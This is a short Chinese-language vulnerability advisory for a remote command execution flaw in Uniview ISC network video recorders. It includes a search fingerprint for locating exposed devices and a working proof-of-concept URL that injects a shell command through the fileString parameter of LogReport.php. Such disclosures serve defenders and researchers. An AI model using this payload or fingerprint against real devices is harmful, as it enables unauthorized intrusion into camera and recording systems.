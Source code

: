 # 

# 浙江宇视科技 网络视频录像机 ISC LogReport.php 远程命令执行漏洞

## 漏洞描述

浙江宇视科技 网络视频录像机 ISC /Interface/LogReport/LogReport.php 页面，fileString 参数过滤不严格，导致攻击者可执行任意命令

## 漏洞影响

```
浙江宇视科技 网络视频录像机 ISC
```

## 网络测绘

```
app="uniview-ISC"
```

## 漏洞复现

登录页面

![image-20220519183432893](./images/202205191834953.png)

验证POC

```
/Interface/LogReport/LogReport.php?action=execUpdate&fileString=x;id>1.txt
```

![image-20220519183528302](./images/202205191835400.png)
